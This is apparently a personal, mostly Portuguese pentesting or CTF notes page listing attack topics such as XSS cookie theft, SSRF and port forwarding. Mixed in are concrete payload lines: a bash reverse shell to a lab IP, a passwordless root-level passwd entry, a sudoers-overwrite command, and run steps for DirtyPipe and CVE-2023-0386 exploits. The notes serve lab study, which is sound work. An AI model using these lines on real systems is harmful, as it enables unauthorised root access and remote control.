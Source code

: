[[Cyber - Type Confusion]]
[[Cyber - Exploiting XSS-stealing cookies]]

Esteganografia
SSRF
Path hijacking

[[Cyber - Reverse Shell]]

[[Cyber - Wildcards Spare tricks]]

[[Cyber - Port Forwarding]]

---

Elastic Search
Wazuh

log_file=/root/root.txt; cp /dev/shm/sudoers> /etc/suoderskanalyze_log

---

[[Cyber - Subdomain enumeration]]

---

echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh

Criar um usuário sem senha e com a shell do root : root4::0:0:root4:/root:/bin/bash

Fazer conexão remota : bash -i >& /dev/tcp/10.10.14.4/1234 0>&1

---

site de hashes : https://gchq.github.io/CyberChef/

---

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits?tab=readme-ov-file

---
https://github.com/xkaneiki/CVE-2023-0386
./fuse ./ovlcap/lower ./gc &
./exp